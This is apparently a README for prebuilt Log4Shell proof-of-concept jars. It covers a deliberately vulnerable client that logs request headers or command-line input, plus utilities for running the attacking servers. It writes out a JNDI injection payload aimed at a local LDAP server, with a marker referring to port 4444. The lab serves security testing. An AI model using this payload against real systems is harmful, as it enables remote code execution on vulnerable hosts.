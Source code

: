 # l4s_poc_jars
These have the jar files that would be built in the l4s_poc repo.  If you have issues building them because of work restrictions pulling in external repos this should solve the issue.

## Client Jar
The client jar has a web server and a cmd line module.
### WebServer
java -jar l4sclients-0.1-all.jar [PORT]  
  
This will default to port 8888 and will log the header log_me  
If not found we look for a header log_me_b64 and base64 decode this and log that.

### CmdLine
You can also run a CmdLine that will log the first param passed in.  
java -cp l4sclients-0.1-all.jar Log4jCmdLine '${jndi:ldap://127.0.0.1:1389/#MM_127_0_0_1_4444}'  
  
Note this is the sam ejar but run as a classpath entry with an explict class listed.


## Utils Jar
If you create a dir target under l4sutils and copy the l4sutils-0.1-all.jar in that dir then you can run the run_servers.py




